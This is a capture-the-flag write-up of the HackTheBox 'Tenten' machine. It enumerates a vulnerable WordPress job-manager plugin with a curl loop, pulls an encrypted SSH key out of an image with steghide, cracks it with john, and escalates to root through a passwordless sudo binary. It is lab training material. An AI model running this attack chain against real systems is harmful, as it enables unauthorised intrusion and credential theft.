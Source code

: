 ```yaml
---
layout: post
title:  "HackTheBox - Tenten"
date:   2020-1-2 00:10:00 +0000
categories: htb
---
```


# Nmap scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.7.3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Job Portal &#8211; Just another WordPress site
Warning: OSScan results may be unreliable
```

# Webapp recon & pwn
Nmap scan leaks wordpress as a title. Wpscan returns a vulnerable plugin = 'job manager' and two users, 'takis' & 'zesk'.
Reading about the vulnerable plugin, it seems we can enumerate the site with the plugin.
We can fuzz this param with a basic bash oneliner.
```
or i in $(seq 1 15); do echo -n " $i "; curl -s http://10.10.10.10/index.php/jobs/apply/$i/ | grep '<title>'; done
 1 <title>Job Application: Hello world! &#8211; Job Portal</title>
 2 <title>Job Application: Sample Page &#8211; Job Portal</title>
 3 <title>Job Application: Auto Draft &#8211; Job Portal</title>
 4 <title>Job Application &#8211; Job Portal</title>
 5 <title>Job Application: Jobs Listing &#8211; Job Portal</title>
 6 <title>Job Application: Job Application &#8211; Job Portal</title>
 7 <title>Job Application: Register &#8211; Job Portal</title>
 8 <title>Job Application: Pen Tester &#8211; Job Portal</title>
 9 <title>Job Application:  &#8211; Job Portal</title>
 10 <title>Job Application: Application &#8211; Job Portal</title>
 11 <title>Job Application: cube &#8211; Job Portal</title>
 12 <title>Job Application: Application &#8211; Job Portal</title>
 13 <title>Job Application: HackerAccessGranted &#8211; Job Portal</title>
 14 <title>Job Application: Application &#8211; Job Portal</title>
 15 <title>Job Application: temp_logo_testing &#8211; Job Portal</title>
```
'hackeraccessgranted' looks interesting, as if someones already pwned the app. Visiting the page shows an image.
We can get the image with wget and start poking steganography techniques at it. Steghide yields something
```
steghide extract -sf HackerAccessGranted.jpg 
Enter passphrase: <blank> 
wrote extracted data to "id_rsa".
```
File we retrieve is a private rsa key which has been encrypted. ssh2john can help us out.
```
ssh2john id_rsa > id.encrypted
root@kali:~/htb/tenten# john id.encrypted --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA 32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
superpassword    (id_rsa)
1g 0:00:00:00 DONE (2018-12-12 22:32) 1.123g/s 876444p/s 876444c/s 876444C/s superpassword
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Chmod 600 the file and login with takis user we found before.

# Gaining root.
Again a sudo check reveals all.
```
takis@tenten:~$ sudo -l
Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin
```
It seems our current user can run the binary 'fuckin' without a password. Looking at the binary, we can see its simply calling bash with root permissions so we can abuse this to read the root file.
```
takis@tenten:/bin$ sudo fuckin id
uid=0(root) gid=0(root) groups=0(root)

takis@tenten:/bin$ sudo fuckin cat /root/root.txt
<redacted>
```

done and dusted.
